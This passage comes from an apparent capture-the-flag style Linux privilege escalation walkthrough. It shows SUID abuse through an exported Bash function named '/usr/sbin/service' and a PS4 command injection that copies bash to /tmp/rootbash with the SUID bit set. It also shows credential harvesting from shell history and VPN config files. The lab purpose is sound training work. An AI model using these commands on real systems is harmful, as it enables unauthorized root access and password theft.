
In Bash versions **<4.2-048** it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path. Verify the version of Bash: ```/bin/bash --version```


Create a Bash function with the name "**/usr/sbin/service**" that executes a new Bash shell (using -p so permissions are preserved) and export the function:
```console
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```
Run the suid-env2 executable to gain a root shell: ```/usr/local/bin/suid-env2```
```console
user@debian:~$ function /usr/sbin/service { /bin/bash -p; }
user@debian:~$ export -f /usr/sbin/service
user@debian:~$ /usr/local/bin/suid-env2
root@debian:~# 
```

# [Task 15] SUID / SGID Executables - Abusing Shell Features (#2)
**Note: This will not work on Bash versions 4.4 and above.**

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements. Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the **PS4** variable set to an embedded command which creates an SUID version of */bin/bash*: ```env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2```


Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```/tmp/rootbash -p```

#  [Task 16] Passwords & Keys - History Files 
If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.


to reading history file: ```cat ~/.*history | less```
```console
ls -al
mysql -h somehost.local -uroot -ppassword123
```
Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line. Note that there is no space between the -p option and the password!


Switch to the root user, using the password: ```su root```

#  [Task 17] Passwords & Keys - Config Files

Config files often contain passwords in plaintext or other reversible formats.
In home directory you will find *myvpn.ovpn* config file. View the contents of the file: ```cat /home/user/myvpn.ovpn```
